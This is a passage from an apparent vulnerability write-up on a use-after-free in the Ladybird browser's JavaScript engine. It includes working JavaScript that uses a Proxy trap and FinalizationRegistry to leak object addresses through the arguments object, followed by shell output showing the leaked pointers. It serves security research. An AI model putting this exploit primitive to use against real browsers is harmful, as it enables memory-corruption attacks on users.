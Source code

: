 We can craft an `addrof`-capability by fitting a pointer somewhere inside the old `arguments_list` allocation,
then reading the
[`arguments`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/arguments)
object from inside the constructor.

Here's an example of how we can leak the address of an object:
```js
let target = {};
let linked = new FinalizationRegistry(() => {});

function meow() {}

let handler = {
    get() {
        // [2]
        // allocate more than 0x30 to free the chunk
        meow(0x1, 0x2, 0x3, 0x4, 0x5, 0x6);

        // [3]
        // allocate the free'd chunk, with pointer to the target
        linked.register(target, undefined, undefined, undefined, undefined, undefined)
    }
};

function Construct() {
    // [4]
    // read the linked list node, containing the pointer
    console.log(arguments)
}

let ConstructProxy = new Proxy(Construct, handler);

// [1]
// allocate a 0x30 chunk
// 0x8 * 5 (js values) + 0x8 (malloc metadata) = 0x30
new ConstructProxy(0x1, 0x2, 0x3, 0x4, 0x5);
```
{{< sidenote number="2" >}}
    The series of <code>undefined</code> arguments on $[3]$ is to make sure the <i>linked list node</i> is allocated
    in our free chunk and not any prelude allocations.
{{< /sidenote >}}

`FinalizationRegistry` places linked list nodes with object pointers on the malloc heap
rendering them a useful structure to leak. Running the exploit we get the double representation of
the pointer, if we repeat a few times they change slightly, subject to ASLR
```ruby
➜  ladybird git:(b8fa355a21) ✗ Build/old/bin/js arguments.js
ArgumentsObject{ "0": 6.9077829341497e-310, "1": undefined, "2": 0, "3": 0, "4": 5 }
➜  ladybird git:(b8fa355a21) ✗ Build/old/bin/js arguments.js
ArgumentsObject{ "0": 6.8997364430636e-310, "1": undefined, "2": 0, "3": 0, "4": 5 }
```
